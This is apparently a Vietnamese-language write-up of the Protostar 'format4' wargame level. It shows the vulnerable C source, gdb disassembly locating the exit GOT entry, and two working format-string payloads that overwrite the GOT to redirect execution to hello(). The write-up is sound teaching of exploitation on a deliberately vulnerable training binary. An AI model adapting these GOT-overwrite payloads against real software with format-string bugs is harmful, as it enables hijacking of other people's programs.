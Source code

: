 # FORMAT FOUR

## About

format4 looks at one method of redirecting execution in a process.

Hints:

  * objdump -TR is your friend

This level is at /opt/protostar/bin/format4

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Solutions

`FORMAT FOUR` cho chúng ta thấy được khi overwrite everywhere sử dụng format string được ghi vào những vị trí chuyển hướng thực thi trong chương trình sẽ giúp chúng ta điều khiển luồng thực thi chương trình thực thi theo ý ta muốn.

Thử thách này hoàn thành khi ta in ra được dòng chữ `"code execution redirected! you win"` nhưng lại không hề có điều kiện hay chỗ nào gọi đến hàm `hello()` trong hai hàm mà chương trình sẽ thực thi là `vuln()` và `main()`.

Ý tưởng của bài này là sẽ ghi đè địa chỉ hàm `hello()` lên địa chỉ của hàm `exit(1)` được lưu trong `GOT - Global Offset Table` để khi thoát hàm `vuln()` chương trình sẽ chuyển hướng thực thi tới `hello()` thay vì gọi hàm `exit(1)` và thoát chương trình.

Địa chỉ hàm `hello()`.

```
root@protostar:/opt/protostar/bin# gdb -q ./format4
Reading symbols from /opt/protostar/bin/format4...done.
(gdb) set disassembly-flavor intel
(gdb) p hello
$1 = {void (void)} 0x80484b4 <hello>
```

Tiếp theo là địa chỉ trong `GOT` nơi chứa địa chỉ của `exit(1)`. Bạn có thể đọc hiểu rõ hơn về `GOT` và `PLT` ở tài liệu tôi để ở `Documents`. 

```
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   ebp
0x080484d3 <vuln+1>:    mov    ebp,esp
0x080484d5 <vuln+3>:    sub    esp,0x218
0x080484db <vuln+9>:    mov    eax,ds:0x8049730
0x080484e0 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x080484e4 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x080484ec <vuln+26>:   lea    eax,[ebp-0x208]
0x080484f2 <vuln+32>:   mov    DWORD PTR [esp],eax
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    eax,[ebp-0x208]
0x08048500 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   mov    DWORD PTR [esp],0x1
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>
End of assembler dump.
(gdb) x/2i 0x80483ec
0x80483ec <exit@plt>:   jmp    DWORD PTR ds:0x8049724
0x80483f2 <exit@plt+6>: push   0x30
(gdb)
```

Vậy là `GOT của exit(1) = 0x8049724`.

```
                 1      2      3
hex     | \xb4 | \x84 | \x04 | \x08 |
decimal | 180  |  388 |  516 |  776 |
Đã có   |  16  |  180 | 388  |  516 |
Cần     |  164 | 208  | 128  | 260  |
para    |  4   |  5   |  6   |   7  |
Addr:
0x80497xx| 24  | 25   | 26   |  27  |

```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# python -c 'print "\x24\x97\x04\x08\x25\x97\x04\x08\x26\x97\x04\x08\x27\x97\x04\x08" + "%164x" + "%4$n" + "%208x" + "%5$n" + "%128x" + "%6$n" + "%260x" + "%7$n"' | ./format4
$%&'                                                                                                                                                                 200                                                                                                                                                                                                        b7fd8420                                                                                                                        bffffb04                                                                                                                                                                                                                                                             8049724
code execution redirected! you win
```

Cách điền`hn-hn` bạn có thể tự viết nó khi đã nắm vững hơn cách overwrite everywhere bằng format strings.

```
python -c 'print "\x24\x97\x04\x08\x26\x97\x04\x08" + "%" + str(0x84b4 - 8) + "x%4$hn" + "%" + str(0x10804 - 0x84b4) + "x%5$hn"' | ./format4
```

## Documents

<https://www.exploit-db.com/papers/13203>



